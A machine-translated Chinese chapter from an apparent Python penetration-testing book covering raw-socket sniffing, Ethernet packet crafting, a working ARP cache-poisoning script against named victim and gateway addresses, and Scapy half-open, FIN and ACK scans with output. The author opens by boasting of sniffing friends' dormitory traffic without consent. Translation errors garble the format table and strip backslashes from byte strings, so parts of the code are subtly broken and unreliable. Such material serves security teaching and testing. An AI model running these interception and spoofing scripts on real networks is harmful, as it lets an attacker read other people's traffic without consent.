




# 嗅探和渗透测试

当我攻读工程硕士学位时，我曾用我最喜欢的工具*凯恩和亚伯*嗅探朋友宿舍里的网络。我的朋友通常会在电子商务网站上冲浪。第二天，当我告诉他们要买的鞋子很好时，他们会感到惊讶。他们总是想知道我是怎么得到这些信息的。这都是因为嗅探网络。

在本章中，我们将研究嗅探网络，并将涵盖以下主题：

*   嗅探器的概念
*   网络嗅探的类型
*   使用 Python 进行网络嗅探
*   使用 Python 制作数据包
*   ARP 欺骗的概念及 Python 实现
*   通过定制数据包制作测试安全性

# 介绍一种网络嗅探器

嗅探是使用软件（应用程序）或硬件设备监视和捕获通过给定网络的所有数据包的过程。嗅探通常由网络管理员完成。但是，攻击者可能使用嗅探器捕获数据，这些数据有时可能包含敏感信息，如用户名和密码。网络管理员使用交换机`SPAN`端口。交换机向`SPAN`端口发送一份流量副本。管理员使用这个`SPAN`端口来分析流量。如果你是黑客，你一定使用过*Wireshark*工具。嗅探只能在子网内完成。在本章中，我们将学习如何使用 Python 进行嗅探。然而，在此之前，我们需要知道有两种嗅探方法。详情如下:

*   被动嗅探
*   主动嗅探

# 被动嗅探

被动嗅探是指从基于集线器的网络进行嗅探。通过将数据包嗅探器以混杂模式放置在网络上，黑客可以捕获子网内的数据包。

# 主动嗅探

这种类型的嗅探是在基于交换机的网络上进行的。交换机比集线器更聪明。它在检查 MAC 表后向计算机发送数据包。主动嗅探是通过使用 ARP 欺骗来实现的，这将在本章中进一步解释。

# 使用 Python 实现网络嗅探器

在了解网络嗅探器的实现之前，让我们先了解一种特殊的`struct`方法：

*   `struct.pack(fmt, v1, v2, ...)`：此方法返回一个字符串，其中包含根据给定格式打包的值`v1`、`v2`等
*   `struct.unpack(fmt, string)`：此方法根据给定格式解压字符串

让我们在以下代码段中讨论代码：

```py
import struct
ms=  struct.pack('hhl', 1, 2, 3)
print (ms)
k= struct.unpack('hhl',ms)
print k
```

上述代码的输出如下所示：

```py
G:PythonNetworkingnetwork>python str1.py
 ☻ ♥
(1, 2, 3)
```

首先导入`struct`模块，然后将`1`、`2`和`3`整数打包成`hhl`格式。压缩值类似于机器代码。使用相同的`hhl`格式解包数值；这里，`h`表示短整数，`l`表示长整数。后续章节将提供更多详细信息。

考虑客户服务器模型的情况；让我们用一个例子来说明它。

运行`struct1.py`。文件服务器端代码如下所示：

```py
import socket
import struct
host = "192.168.0.1"
port = 12347
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host, port))
s.listen(1)
conn, addr = s.accept()
print "connected by", addr
msz= struct.pack('hhl', 1, 2, 3) 
conn.send(msz)
conn.close()
```

整个代码与我们前面看到的相同，`msz= struct.pack('hhl', 1, 2, 3)`打包消息，`conn.send(msz)`发送消息。

运行`unstruc.py`文件。客户端代码如下所示：

```py
import socket
import struct 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = "192.168.0.1"
port =12347
s.connect((host,port))
msg= s.recv(1024)
print msg
print struct.unpack('hhl',msg)
s.close()
```

客户端代码接受消息并以给定格式将其解压缩。

客户端代码的输出如下所示：

```py
C:network>python unstruc.py
 ☻ ♥
(1, 2, 3)
```

服务器端代码的输出如下所示：

```py
G:PythonNetworkingprogram>python struct1.py
connected by ('192.168.0.11', 1417)
```

现在，您应该对如何打包和解包数据有了不错的了解。

# 格式字符

我们已经在 pack 和 unpack 方法中看到了格式。下表中有**C-type**和**Python-type**列。它表示 C 和 Python 类型之间的转换。**标准大小**列是指压缩值的大小，以字节为单位：

| **格式** | **C 型** | **Python 类型** | **标准尺寸** |
| x | 填充字节 | 无价值 |  |
| C | 烧焦 | 长度为 1 的字符串 | 1. |
| B | 签名字符 | 整数 | 1. |
| B | 无符号字符 | 整数 | 1. |
| ? | _ 布尔 | 布尔 | 1. |
| H | 短的 | 整数 | 2. |
| H | 无符号短 | 整数 | 2. |
| 我 | int | 整数 | 4. |
| 我 | 无符号整型 | 整数 | 4. |
| L | 长的 | 整数 | 4. |
| L | 无符号长 | 整数 | 4. |
| Q | 长长的 | 整数 | 8. |
| Q | 无符号长-长 | 整数 | 8. |
| F | 浮动 | 浮动 | 4. |
| D | 双重的 | 浮动 | 8. |
| s | 字符[] | 一串 |  |
| P | 字符[] | 一串 |  |
| P | 空虚* | 整数 |  |

**让我们检查一下当一个值以不同格式打包时会发生什么：**

 **```py
 >>> import struct
 >>> struct.pack('b',2)
  'x02'
  >>> struct.pack('B',2)
  'x02'
  >>> struct.pack('h',2)
  'x02x00'
```

我们将编号`2`打包成三种不同的格式。从上表中，我们知道*b*和*b*各为一个字节，这意味着它们的大小相同。但是，`*h*`是两个字节。

现在，让我们使用长的`int`，它是八个字节：

```py
  >>> struct.pack('q',2)
  'x02x00x00x00x00x00x00x00'
```

如果我们在网络上工作，`!`应按以下格式使用。`!`用于避免混淆网络字节是小端还是大端。有关 big-endian 和 little-endian 的更多信息，请参阅维基百科 Endianness 页面：

```py
  >>> struct.pack('!q',2)
  'x00x00x00x00x00x00x00x02'
  >>>
```

您可以在格式中使用`!`时看到差异。

在继续嗅探之前，您应该了解以下定义：

*   **PF_ 包**：在设备驱动层操作。Linux 的`pcap`库使用`PF_PACKET`套接字。要运行此操作，您必须以 root 用户身份登录。如果您希望在互联网协议层下的最基本级别发送和接收消息，则需要使用`PF_PACKET`。
*   **原始套接字**：它不关心网络层堆栈，提供直接与应用程序发送和接收数据包的快捷方式。

以下套接字方法用于字节顺序转换：

*   `socket.ntohl(x)`：这是主机长的网络。它将网络中的 32 位正整数转换为主机字节顺序。
*   `socket.ntohs(x)`：这是网络对主机的短路。它将网络中的 16 位正整数转换为主机字节顺序。
*   `socket.htonl(x)`：这是主机到网络长。它将 32 位正整数从主机转换为网络字节顺序。
*   `socket.htons(x)`：这是主机对网络短路。它将主机的 16 位正整数转换为网络字节顺序。

那么，前面四种方法的意义是什么呢？

考虑一个 16 位数字，00000000000000 个 11。当您将此号码从一台计算机发送到另一台计算机时，其顺序可能会更改。接收计算机可能以另一种形式接收，例如 1100000000000000。这些方法从本机字节顺序转换为网络字节顺序，然后再转换回来。现在，让我们看一下实现网络嗅探器的代码，它将在 TCP/IP 的三层上工作，即物理层（以太网）、网络层（IP）和 TCP 层（端口）。

在查看代码之前，您应该了解所有三层的标题：

*   **物理层**：该层处理以太网帧，如下图所示：



以太网帧 ieee802.3 的结构

上图说明如下：

*   **前导码**由七个字节组成，全部为 10101010 格式，接收机使用它来建立位同步
*   **开始帧定界符**由一个字节 10101011 组成，它是一个帧标志，指示帧的开始
*   目标和源地址是以太网地址，通常以六个字节的序列引用

我们只对源地址和目标地址感兴趣。数据部分包含 IP 和 TCP 头。

您应该始终记住的一点是，当帧到达我们的程序缓冲区时，它不包含**前导**和**开始帧分隔符**字段。

MAC 地址，如`AA:BB:CC:56:78:45`，包含 12 个十六进制字符，每个字节包含两个十六进制值。为了存储 MAC 地址，我们将使用六个字节的内存。

*   **网络或 IP 层**：在这一层中，我们感兴趣的是源和目标的 IP 地址。

现在，让我们转到 IPv4 标头，如下图所示：



IPv4 报头

IPv4 数据包头由 14 个字段组成，其中只需要 13 个字段。第 14 个字段是可选的。此标头的长度为 20 字节。最后八个字节包含源 IP 地址和目标 IP 地址。从 12 到 16 的字节包含源 IP 地址，从 17 到 20 的字节包含目标 IP 地址：

*   **TCP 头**：在这个头中，我们感兴趣的是源端口和目标端口地址。如果您注意到 TCP 头，您会发现它也有 20 个字节长，头的起始两个字节提供源端口，接下来的两个字节提供目标端口地址。您可以在下图中看到 TCP 标头：


TCP 报头

现在，启动接口卡的混杂模式，并以超级用户的身份发出命令。那么，什么是滥交或滥交模式？在计算机网络中，混杂模式允许网络接口卡读取到达其子网的数据包。例如，在集线器环境中，当数据包到达一个端口时，它被复制到其他端口，并且只有预期用户读取该数据包。但是，如果其他网络设备以混杂模式工作，则该设备也可以读取该数据包：

```py
  ifconfig eth0 promisc
```

通过键入`ifconfig`命令，检查前面命令的效果，如以下屏幕截图所示：


显示混乱模式

前面的屏幕截图显示了`eth0`网卡，并且它正在混乱模式下工作。

由于驱动程序、内核支持等原因，某些卡无法设置为混杂模式。

现在，是时候编码了。首先，让我们完整地看一下以下代码段，然后逐行理解它：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 8)
while True:
  try:
    pkt = s.recvfrom(2048)
    ethhead = pkt[0][0:14]
    eth = struct.unpack("!6s6s2s",ethhead)
    print "*"*50
    print "--------Ethernet Frame--------"
    print "Source MAC --> Destination MAC"
    print binascii.hexlify(eth[1]),"-->",binascii.hexlify(eth[0])
    print "-----------IP------------------"
    num=pkt[0][14].encode('hex')
    ip_length = (int(num)%10)*4
    ip_last_range = 14+ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    print "Source IP--> Destination IP"
    print socket.inet_ntoa(ip_hdr[1]),"-->", socket.inet_ntoa(ip_hdr[2])
    print "---------TCP----------"
    tcpheader = pkt[0][ip_last_range:ip_last_range+20]

    tcp_hdr = struct.unpack("!HH9sB6s",tcpheader)
    print "Source Port--> Destination Port"
    print tcp_hdr[0],"-->", tcp_hdr[1]
    flag1 =tcp_hdr[3]
    str1 = bin(flag1)[2:].zfill(8) 
    flag1 = ''
    if str1[0]== '1':
      flag1 = flag1+"CWR "
    if str1[1] == '1':
      flag1 = flag1+ "ECN Echo "
    if str1[2] == '1':
      flag1 = flag1 + "Urgent "
    if str1[3]== '1':
      flag1 = flag1+ "Ack "

    if str1[4]== '1':
      flag1 = flag1+"Push "
    if str1[5] == '1':
      flag1 = flag1+ "Reset "
    if str1[6] == '1':
      flag1 = flag1 + "Sync "
    if str1[7]== '1':
      flag1 = flag1+ "Fin "

    print "Flag", flag1
  except Exception as e :
    print e

```

我们已经定义了`socket.PF_PACKET, socket.SOCK_RAW`行。`socket.htons(0x0800)`语法表示感兴趣的协议。`0x0800`代码定义了`ETH_P_IP`协议。您可以在`/usr/include/linux`中的`if_ether.h`文件中找到所有代码。`pkt = s.recvfrom(2048)`语句创建 2048 的缓冲区。传入帧存储在`pkt`变量中。如果您打印这个`pkt`，它会显示元组，但我们的宝贵信息驻留在第一个元组中。`ethhead = pkt[0][0:14]`语句从`pkt`中提取前 14 个字节。以太网帧的长度为 14 字节，它位于第一位，如下图所示，这就是我们使用前 14 字节的原因：



标题的配置

在`eth = struct.unpack("!6s6s2s",ethhead)`语句中，`!`显示网络字节，`6s`显示六个字节，正如我们前面讨论的。`binascii.hexlify(eth[0])`语句返回二进制数据的十六进制表示形式。`eth[0]`的每个字节都转换为相应的两位十六进制表示。`ip_length = (int(num)%10)*4`语法告诉我们 IPv4 头的大小。`ipheader = pkt[0][14:ip_last_range]`语句提取范围之间的数据。接下来是 IP 头和`ip_hdr =struct.unpack("!12s4s4s",ipheader)`语句，它将数据解压为三部分，其中我们的目标和源 IP 地址分别位于第二部分和第三部分。`socket.inet_ntoa(ip_hdr[3])`语句将 32 位压缩 IPv4 地址（一个长度为四个字符的字符串）转换为其标准虚线四元字符串表示形式。

`tcpheader **=** pkt[0][ip_last_range:ip_last_range+20]`语句提取接下来的 20 个字节的数据。`tcp_hdr = struct.unpack("!HH9sB6s",tcpheader)`语句分为五部分，即首先是`HH9sB6s`，然后是源端口号和目标端口号。第四部分 B 表示标志值。`str1 = bin(flags)[2:].zfill(8)`**语法用于将标志 int 值转换为八位二进制值。**

 **`sniffer_new.py`的输出如下：

```py
 --------Ethernet Frame--------
Source MAC --> Destination MAC
005056e2859d --> 000c29436fc7
-----------IP------------------
Source IP--> Destination IP
91.198.174.192 --> 192.168.0.24
---------TCP----------
Source Port--> Destination Port
443 --> 43885
Flag Ack Push Fin 

**************************************************
--------Ethernet Frame--------
Source MAC --> Destination MAC
005056e2859d --> 000c29436fc7
-----------IP------------------
Source IP--> Destination IP
91.198.174.192 --> 192.168.0.24
---------TCP----------
Source Port--> Destination Port
443 --> 43851
Flag Ack 
```

我们的嗅探器现在工作正常。让我们讨论一下输出的结果。以太网帧显示目标 MAC 和源 MAC。IP 报头告诉源 IP 数据包从何处到达，目标 IP 是在我们的子网上运行的另一个操作系统。TCP 头显示`Source port`、`Destination port`和`Flag`。源端口为`443`，表示有人正在浏览网站。现在我们有了一个 IP 地址，让我们检查一下哪个网站正在`91.198.174.192`上运行：

```py
 >>> import socket
 >>> socket.gethostbyaddr('91.198.174.192')
('text-lb.esams.wikimedia.org', [], ['91.198.174.192'])
>>>
```

前面的结果显示了`text-lb.esams.wikimedia.org`网站。

在输出中，显示了两个数据包。如果您打印**`tcp_hdr[3]`：**

 **

标志值

如果`16`出现，则`bin(flag1)[2:].zfill(8**)**`语法将返回`00010000`，表示 ACK 位开启。整数 25 表示 00011001，表示**Ack**、**Push**和**Fin**位开启

现在，让我们对代码进行一些修改。在代码末尾再添加一行：

```py
print pkt[0][ip_last_range+20:]
```

让我们检查输出是如何更改的：

```py
  HTTP/1.1 304 Not Modified
  Server: Apache
  X-Content-Type-Options: nosniff
  Cache-control: public, max-age=300, s-maxage=300
  Last-Modified: Thu, 25 Sep 2014 18:08:15 GMT
  Expires: Sat, 27 Sep 2014 06:41:45 GMT
  Content-Encoding: gzip
  Content-Type: text/javascript; charset=utf-8
  Vary: Accept-Encoding,X-Use-HHVM
  Accept-Ranges: bytes
  Date: Sat, 27 Sep 2014 06:37:02 GMT
  X-Varnish: 3552654421 3552629562
  Age: 17
  Via: 1.1 varnish
  Connection: keep-alive
  X-Cache: cp1057 hit (138)
  X-Analytics: php=zend
```

有时，我们对 TTL 感兴趣，它是 IP 报头的一部分。这意味着我们必须更改解包功能：

```py
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!8sB3s4s4s",ipheader)
    print "Source IP--> Destination IP, "
    print socket.inet_ntoa(ip_hdr[3]),"-->", socket.inet_ntoa(ip_hdr[4])
    print "TTL: ",ip_hdr[1]
```

现在，让我们检查一下`sniffer_ttl.py`的输出：

```py
 --------Ethernet Frame--------
Source MAC --> Destination MAC
005056e2859d --> 000c29436fc7
-----------IP------------------
Source IP--> Destination IP
74.125.24.157 --> 192.168.0.24
TTL: 128
---------TCP----------
Source Port--> Destination Port
443 --> 48513
16
Flag Ack 
```

`TTL`值为`128`。那么它是如何工作的呢？很简单,；我们已经以 8sB3s4s4s 格式解包了该值，我们的 TTL 字段位于第九个字节。8s 之后意味着，在第八个字节之后，我们以 B 的形式得到 TTL 字段。

# 学习包制作

这是一种黑客或 pentester 可以创建自定义数据包的技术。通过使用自定义数据包，黑客可以执行许多任务，例如探测防火墙规则集、端口扫描和操作系统的行为。有很多工具可用于数据包制作，如 Hping 和 Colasoft 数据包生成器。包制作是一项技能。您可以像使用 Python 一样，不使用任何工具来执行它。

首先，我们创建以太网数据包，然后将它们发送给受害者。让我们看一下整个 To0t0 代码，然后逐行理解：

```py
import socket
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))
sor = 'x00x0cx29x4fx8ex35'
des ='x00x0Cx29x2Ex84x7A'
code ='x08x00'
eth = des+sor+code
s.send(eth)
```

你已经在包嗅探器中看到了`s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))`。现在，决定网络接口。我们选择 eth0 接口来发送数据包。`s.bind(("eth0",socket.htons(0x0800)))`语句将 eth0 接口与协议值绑定。接下来的两行定义了源 MAC 地址和目标 MAC 地址。`code ='x08x00'`语句显示了感兴趣的协议。这是 IP 协议的代码。`eth = des+sor+code`语句用于组装数据包。下一行`s.send(eth)`发送数据包。

# 介绍 ARP 欺骗并使用 Python 实现

**ARP**（**地址解析协议**用于将 IP 地址转换为其对应的以太网（MAC）地址。当数据包到达网络层（OSI）时，它有一个 IP 地址和一个需要目标设备 MAC 地址的数据链路层数据包。在这种情况下，发送方使用 ARP。

术语**地址解析**是指在网络中查找计算机 MAC 地址的过程。以下是 ARP 可能发送的两种类型的 ARP 消息：

*   ARP 请求
*   ARP 应答

# ARP 请求

主机可能希望向同一子网中的另一台计算机发送消息。主机只知道 IP 地址，而在数据链路层发送消息需要 MAC 地址。在这种情况下，主机广播 ARP 请求。子网中的所有计算机都接收该消息。该值的以太网协议类型为`0x806`。

# ARP 应答

预期用户使用其 MAC 地址进行响应。此回复是单播的，称为 ARP 回复。

# ARP 缓存

为了减少地址解析请求的数量，客户端通常会在短时间内缓存解析的地址。ARP 缓存的大小是有限的。当任何设备想要向子网中的另一个目标设备发送数据时，它必须首先确定该目标的 MAC 地址，即使发送方知道接收方的 IP 地址。这些 IP 到 MAC 地址映射源自每个设备上维护的 ARP 缓存。将删除未使用的条目，从而释放缓存中的一些空间。使用`arp –a`命令查看 ARP 缓存，如下图所示：


ARP 缓存

ARP 欺骗，也称为 ARP 缓存中毒，是一种攻击类型，攻击者会更改网关 ARP 缓存中受害机器的 MAC 地址以及受害机器 ARP 缓存中网关的 MAC 地址。该技术用于攻击局域网。攻击者可以通过 LAN 嗅探数据帧。在 ARP 欺骗中，攻击者向网关和受害者发送虚假回复。其目的是将攻击者的 MAC 地址与另一台主机（如默认网关）的 IP 地址相关联。ARP 欺骗用于主动嗅探。

现在，我们将使用一个示例来演示 ARP 欺骗。

网络中所有机器的 IP 地址和 MAC 地址如下：

| **机器名称** | **IP 地址** | **MAC 地址** |
| Windows XP（受害者） | `192.168.0.11` | `00:0C:29:2E:84:7A` |
| Linux（攻击者） | `192.168.0.10` | `00:0C:29:4F:8E:35` |
| Windows 7（网关） | `192.168.0.1` | `00:50:56:C0:00:08` |

让我们看看 ARP 协议报头，如下图所示：



ARP 报头

让我们看一下实现 ARP 欺骗的代码，并逐行讨论：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x00x0cx29x4fx8ex35'
victmac ='x00x0Cx29x2Ex84x7A'

gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

在前面介绍的数据包制作部分中，您创建了以太网帧。在这段代码中，我们使用了三个 MAC 地址，它们也显示在上表中。在这里，我们使用了`code ='x08x06'`，这是 ARP 协议的代码。制作的两个以太网数据包是`eth1`和`eth2`。下一行`htype = 'x00x01'`表示以太网。一切正常，如 ARP 头`protype = 'x08x00'`所示，表示协议类型；`hsize = 'x06'`显示硬件地址大小；`psize = 'x04'`给出 IP 地址长度；并且`opcode = 'x00x02'`显示它是一个应答包。`gate_ip = '192.168.0.1'`和`victim_ip = '192.168.0.11'`语句分别是网关和受害者的 IP 地址。`socket.inet_aton ( gate_ip )`方法将 IP 地址转换为十六进制格式。最后，我们根据 ARP 报头组装了整个代码。`s.send()`方法也将数据包放在电缆上。

现在，是时候查看输出了。运行`arpsp.py`文件。

让我们检查受害者的 ARP 缓存：


受害者的 ARP 缓存

前面的屏幕截图显示了 ARP 欺骗攻击前后的 ARP 缓存。从屏幕截图中可以清楚地看到，网关 IP 的 MAC 地址已更改。我们的代码运行良好。

让我们检查网关的 ARP 缓存：


网关的 ARP 缓存

前面的屏幕截图显示我们的代码已成功运行。受害者和攻击者的 IP 具有相同的 MAC 地址。现在，所有用于网关的数据包都将通过攻击者的系统，攻击者可以有效地读取在网关和受害者计算机之间来回传输的数据包。

在 pentesting 中，您必须攻击（ARP 欺骗）网关，以调查它是否易受 ARP 欺骗的攻击。

# 使用自定义数据包制作测试安全系统

在本节中，我们将看到一些特殊类型的扫描。在[第 2 章](2.html)*扫描 Pentesting*中，您看到了端口扫描器，它基于 TCP 连接扫描工作。三向握手是 TCP 连接扫描的基本概念

# 半开放式扫描

顾名思义，半开放扫描或隐形扫描是一种特殊类型的扫描。隐形扫描技术用于绕过防火墙规则，避免被日志系统检测到。然而，这是一种特殊类型的扫描，通过使用数据包制作完成，这在本章前面已经解释过。如果你想制作一个 IP 或 TCP 数据包，那么你必须提到每个部分。我知道这很痛苦，你会想到*Hping*。然而，Python 的库将使它变得简单。

现在，让我们来看看使用 Saby。Scapy 是一个第三方库，允许您定制数据包。我们将编写一个简单而简短的代码，以便您能够理解 scapy。

在编写代码之前，让我们先了解半开放扫描的概念。以下步骤定义隐藏扫描：

1.  客户端将 SYN 数据包发送到目标端口上的服务器
2.  如果端口是打开的，则服务器用`SYN`/`ACK`数据包进行响应
3.  如果服务器响应一个`RST`数据包，则表示端口已关闭
4.  客户端发送`RST`关闭初始化

现在，让我们看一下代码，也将对其进行解释，如下所示：

```py
from scapy.all import *
ip1 = IP(src="192.168.0.10", dst ="192.168.0.3" )
tcp1 = TCP(sport =1024, dport=80, flags="S", seq=12345)
packet = ip1/tcp1
p =sr1(packet, inter=1)
p.show()

rs1 = TCP(sport =1024, dport=80, flags="R", seq=12347)
packet1=ip1/rs1
p1 = sr1(packet1)
p1.show
```

第一行导入 scapy 的所有模块。下一行`ip1 = IP(src="192.168.0.10", dst ="192.168.0.3" )`定义了 IP 数据包。IP 包的名称为`ip1`，包含源地址和目的地址。`tcp1 = TCP(sport =1024, dport=80, flags="S", seq=12345)`语句定义了一个名为`tcp1`的`TCP`包，该包包含源端口和目的端口。我们对端口`80`感兴趣，因为我们已经定义了隐形扫描的先前步骤。对于第一步，客户端向服务器发送`SYN`数据包。在我们的`tcp1`数据包中，`SYN`标志已设置为如数据包所示，seq 随机给出。

下一行`packet= ip1/tcp1`首先排列 IP，然后排列`TCP`。`p =sr1(packet, inter=1)`语句接收数据包。`sr1()`函数使用发送和接收的数据包，但它只接收一个应答数据包`inter= 1`，这表示间隔为 1 秒，因为我们希望两个数据包之间存在 1 秒的间隔。下一行`p.show()`给出了所接收数据包的层次结构视图。`rs1 = TCP(sport =1024, dport=80, flags="R", seq=12347)`语句将发送设置了`RST`标志的数据包。这一行后面的几行很容易理解。这里不需要`p1.show`，因为我们不接受服务器的任何响应。

结果如下：

```py
  root@Mohit|Raj:/scapy# python halfopen.py
  WARNING: No route found for IPv6 destination :: (no default route?)
  Begin emission:
  .*Finished to send 1 packets.
  Received 2 packets, got 1 answers, remaining 0 packets
  ###[ IP ]###
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 44
    id        = 0
    flags     = DF
    frag      = 0L
    ttl       = 64
    proto     = tcp
    chksum    = 0xb96e
    src       = 192.168.0.3
    dst       = 192.168.0.10
  options 
  ###[ TCP ]###
       sport     = http
       dport     = 1024
       seq       = 2065061929
       ack       = 12346
       dataofs   = 6L
       reserved  = 0L
       flags     = SA
       window    = 5840
       chksum    = 0xf81e
       urgptr    = 0
       options   = [('MSS', 1460)]
  ###[ Padding ]###
          load      = 'x00x00'
  Begin emission:
  Finished to send 1 packets.
  ..^Z
  [10]+  Stopped python halfopen.py
```

所以我们已经收到了回信。来源和目的地似乎很好。查看`TCP`字段并记下标记的值。我们有 SA，它表示`SYN`和`ACK`标志。如前所述，如果服务器使用`SYN`和`ACK`标志进行响应，则表示端口已打开。*Wireshark*还捕获了响应，如以下屏幕截图所示：


Wireshark 输出

现在，让我们再来一次，但这次，目的地将不同。从输出中，您将知道目标地址是什么：

```py
  root@Mohit|Raj:/scapy# python halfopen.py 
  WARNING: No route found for IPv6 destination :: (no default route?)
  Begin emission:
  .*Finished to send 1 packets.
  Received 2 packets, got 1 answers, remaining 0 packets
  ###[ IP ]###
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 40
    id        = 37929
  flags     = 
    frag      = 0L
    ttl       = 128
    proto     = tcp
    chksum    = 0x2541
    src       = 192.168.0.11
    dst       = 192.168.0.10
  options 
  ###[ TCP ]###
       sport     = http
       dport     = 1024
       seq       = 0
       ack       = 12346
       dataofs   = 5L
       reserved  = 0L
       flags     = RA
       window    = 0
       chksum    = 0xf9e0
       urgptr    = 0
       options   = {}
  ###[ Padding ]###
          load      = 'x00x00x00x00x00x00'
  Begin emission:
  Finished to send 1 packets.
  ^Z
  [12]+  Stopped                 python halfopen.py
  root@Mohit|Raj:/scapy#
```

这次返回`RA`标志，表示`RST`和`ACK`。这意味着端口已关闭。

# FIN 扫描

有时防火墙和**入侵检测系统**（**IDS**）被配置为检测`SYN`扫描。在 FIN 扫描攻击中，`TCP`数据包被发送到远程主机，并且只设置了 FIN 标志。如果主机没有响应，则表示端口已打开。如果收到响应，则包含`RST`/`ACK`标志，表示端口已关闭。

以下是 FIN 扫描的代码：

```py
from scapy.all import *
ip1 = IP(src="192.168.0.10", dst ="192.168.0.11")
sy1 = TCP(sport =1024, dport=80, flags="F", seq=12345)
packet = ip1/sy1
p =sr1(packet)
p.show()
```

该数据包与前一个数据包相同，只设置了 FIN 标志。现在，检查来自不同机器的响应：

```py
root@Mohit|Raj:/scapy# python fin.py 
WARNING: No route found for IPv6 destination :: (no default route?)
Begin emission:
.Finished to send 1 packets.
*
Received 2 packets, got 1 answers, remaining 0 packets
###[ IP ]###
  version   = 4L
  ihl       = 5L
  tos       = 0x0
  len       = 40
  id        = 38005
  flags     = 
  frag      = 0L
  ttl       = 128
  proto     = tcp
  chksum    = 0x24f5
  src       = 192.168.0.11
  dst       = 192.168.0.10
  options   
###[ TCP ]###
     sport     = http
     dport     = 1024
     seq       = 0
     ack       = 12346
     dataofs   = 5L
     reserved  = 0L
     flags     = RA
     window    = 0
     chksum    = 0xf9e0
     urgptr    = 0
     options   = {}
###[ Padding ]###
        load      = 'x00x00x00x00x00x00'
```

传入数据包包含`RST`/`ACK`标志，表示端口已关闭。现在，我们将目的地更改为`192.168.0.3`并检查响应：

```py
root@Mohit|Raj:/scapy# python fin.py 
WARNING: No route found for IPv6 destination :: (no default route?)
Begin emission:
.Finished to send 1 packets.
....^Z
[13]+  Stopped                 python fin.py
```

未收到来自目标的响应，这意味着端口已打开。

# 确认标志扫描

`ACK`扫描法用于确定主机是否受到某种过滤系统的保护。

在这种扫描方法中，攻击者发送一个带有随机序列号的`ACK`探测包，其中没有响应意味着端口被过滤（在这种情况下，存在一个状态检查防火墙）；如果 RST 响应返回，则表示端口已关闭。

现在，让我们看一下下面的代码：

```py
from scapy.all import *
ip1 = IP(src="192.168.0.10", dst ="192.168.0.11")
sy1 = TCP(sport =1024, dport=137, flags="A", seq=12345)
packet = ip1/sy1
p =sr1(packet)
p.show()
```

在前面的代码中，标志被设置为`ACK`，目的端口为`137`。

现在，检查输出：

```py
  root@Mohit|Raj:/scapy# python ack.py 
  WARNING: No route found for IPv6 destination :: (no default route?)
  Begin emission:
